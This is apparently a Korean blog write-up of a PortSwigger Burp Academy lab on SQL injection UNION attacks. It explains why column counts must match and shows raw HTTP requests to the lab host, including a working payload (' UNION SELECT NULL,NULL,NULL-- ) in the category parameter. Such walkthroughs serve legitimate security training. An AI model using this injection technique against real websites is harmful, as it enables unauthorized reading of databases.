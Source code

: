 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - SQL injection UNION attack, determining the number of columns returned by the query"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, SQL인젝션]
toc: true
---
```


# 개요
- SQL 인젝션 문제이다. 
- 문제 주소: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns
- SQL 인젝션 설명 주소: https://portswigger.net/web-security/sql-injection
- 난이도: PRACTITIONER (중간)

# 문제 분석
```
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.
```

- 상품 카테고리 필터에 SQL인젝션(이하 SQLi) 취약점이 있다고 한다. 
- UNION 을 사용해 null 값을 포함한 row를 추가하면 될 것 같다.
- 문제 이름에도 나와있지만 UNION 을 이용할 때 중요한 것은 원래 서버에서 실행하는 쿼리와 UNION으로 추가하는 쿼리에서 조회하는 칼럼수가 일치해야 한다는 점이다. 
- 일치하지 않으면 SQL 에러가 발생할 것이고, 일치하면 실행이 성공할 것이다. 



# SQLi 가능한 곳 찾기 

![상품 카테고리 검색](/images/burp-academy-sqli-3-1.png)

카테고리 링크를 클릭했을 때 다음 요청이 전송된다. 이 요청의 `category` 파라메터에 취약점이 있는 것으로 보인다. 
```
GET /filter?category=Food+%26+Drink HTTP/1.1
Host: 0a4e0059040befe9c2920c7a008b00a1.web-security-academy.net
Cookie: session=LIh6LwPZfLRbtdrxNCePKX1yUiHlRjHL
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4e0059040befe9c2920c7a008b00a1.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close
```



# 풀이 
- 위의 쿼리에서 `UNION SELECT NULL-- `를 기본으로 칼럼을 하나씩 추가해가면서 테스트해본다. 
- `UNION SELECT NULL,NULL-- `, `UNION SELECT NULL,NULL,NULL-- ` 과 같은 식이다. 
- 칼럼 수가 세개일 때 200응답이 돌아왔다. 

```
GET /filter?category=Food+%26+Drink'%20UNION%20SELECT%20NULL,NULL,NULL--%20 HTTP/1.1
Host: 0a4e0059040befe9c2920c7a008b00a1.web-security-academy.net
Cookie: session=LIh6LwPZfLRbtdrxNCePKX1yUiHlRjHL
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4e0059040befe9c2920c7a008b00a1.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close
```


![SQLi 요청,응답 화면](/images/burp-academy-sqli-3-2.png)

![SQLi 성공](/images/burp-academy-sqli-3-success.png)